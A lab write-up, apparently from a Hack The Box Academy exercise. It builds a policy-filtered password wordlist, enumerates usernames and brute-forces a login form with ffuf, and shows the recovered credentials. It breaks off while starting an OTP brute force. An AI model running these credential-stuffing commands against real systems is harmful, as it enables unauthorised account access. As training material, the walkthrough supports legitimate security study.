


# SCENARIO:
You are tasked to perform a security assement of a client web app, the client has not provided u with credentials.

- IP: 94.237.58.171:46309

Password policy:
Password does not meet our password policy:
Contains at least one digit
Contains at least one lower-case character
Contains at least one upper-case character
Contains NO special characters
Is exactly 12 characters long

Create a wordlist with this policy:
```sh
grep -E '^[A-Za-z0-9]{12}$' Dictionaries/rockyou.txt | grep -E '[0-9]' | grep -E '[a-z]' | grep -E '[A-Z]' > filtered_passwords.txt
```
We must to enumerate the user for get the access:
```sh
ffuf -w Dictionaries/SecLists/Passwords/xato-net-10-million-passwords.txt:USER -u http://94.237.58.171:46309/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=3p6q29nb71ujqmh9c8bkp1nck8" -d "username=USER&password=dsfsd" -fr "Unknown username or password." -o userenum.txt -of json

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.58.171:46309/login.php
 :: Wordlist         : USER: /home/Anchovy/Dictionaries/SecLists/Passwords/xato-net-10-million-passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=3p6q29nb71ujqmh9c8bkp1nck8
 :: Data             : username=USER&password=dsfsd
 :: Output file      : userenum.txt
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

test                    [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 91ms]
gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 44ms]
Test                    [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 110ms]
TEST                    [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 94ms]

# Now we can use the wordlist that we generate:
fuf -w filtered_passwords.txt -u http://94.237.58.171:46309/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fs 4344 -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.58.171:46309/login.php
 :: Wordlist         : FUZZ: /home/Anchovy/filtered_passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 4344
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
```

> [!IMPORTANT]
> USER: gladys
> PASS: dWinaldasD13

Now generate a wordlist for the otp:
`seq -W 0 100000 > num_word`
Is not work after that we must intererp the request:
1. 
2. 
https://academy.hackthebox.com/achievement/349590/80

